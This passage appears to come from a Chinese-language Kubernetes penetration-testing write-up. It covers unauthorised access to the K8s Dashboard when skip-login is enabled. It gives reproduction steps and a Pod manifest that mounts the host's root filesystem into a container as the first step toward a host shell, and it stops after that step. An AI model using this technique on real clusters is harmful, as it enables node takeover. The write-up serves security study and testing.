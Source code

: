 [![](assets/1698893355-e2fc8ae85f71ef306ea29e86ed941125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171727-51097b46-7317-1.png)

### 控制面版

#### Dashboard未授权访问

**漏洞描述**  
K8s Dashboard默认是存在鉴权机制的，用户可以通过kubeconfig或者Token两种方式登录，当用户开启了enable-skip-login时可以在登录界面点击Skip跳过登录直接进入Dashboard，而且有时候可以直接访问K8s DashBoard，在这种情况下攻击者可以通过部署恶意Pod实现控制节点的目的

**漏洞复现**  
K8s DashBoard未授权访问：  
[![](assets/1698893355-65a9e09e7439892c222a1c90c170485c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172056-cdc60924-7317-1.png)  
**宿主Shell**  
Step 1：通过WEB UI界面创建一个pod，并将本地根目录挂载到pod的/mnt目录中

```plain
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```